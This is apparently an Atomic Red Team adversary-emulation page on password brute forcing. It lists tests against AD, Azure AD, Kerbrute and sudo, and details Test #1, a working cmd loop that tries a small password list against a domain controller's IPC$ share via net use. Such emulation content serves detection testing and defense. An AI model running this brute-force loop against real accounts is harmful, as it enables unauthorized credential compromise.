 - [Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)](#atomic-test-2---brute-force-credentials-of-single-active-directory-domain-user-via-ldap-against-domain-controller-ntlm-or-kerberos)

- [Atomic Test #3 - Brute Force Credentials of single Azure AD user](#atomic-test-3---brute-force-credentials-of-single-azure-ad-user)

- [Atomic Test #4 - Password Brute User using Kerbrute Tool](#atomic-test-4---password-brute-user-using-kerbrute-tool)

- [Atomic Test #5 - SUDO Brute Force - Debian](#atomic-test-5---sudo-brute-force---debian)

- [Atomic Test #6 - SUDO Brute Force - Redhat](#atomic-test-6---sudo-brute-force---redhat)

- [Atomic Test #7 - SUDO Brute Force - FreeBSD](#atomic-test-7---sudo-brute-force---freebsd)


<br/>

## Atomic Test #1 - Brute Force Credentials of single Active Directory domain users via SMB
Attempts to brute force a single Active Directory account by testing connectivity to the IPC$ share on a domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 09480053-2f98-4854-be6e-71ae5f672224





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | %username%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo Password1> passwords.txt
echo 1q2w3e4r>> passwords.txt
echo Password!>> passwords.txt
echo Spring2022>> passwords.txt
echo ChangeMe!>> passwords.txt
@FOR /F "delims=" %p in (passwords.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\#{user}" "%p" 1>NUL 2>&1 && @echo [*] #{user}:%p && @net use /delete %logonserver%\IPC$ > NUL
```






<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)
Attempt to brute force Active Directory domain user on a domain controller, via LDAP, with NTLM or Kerberos
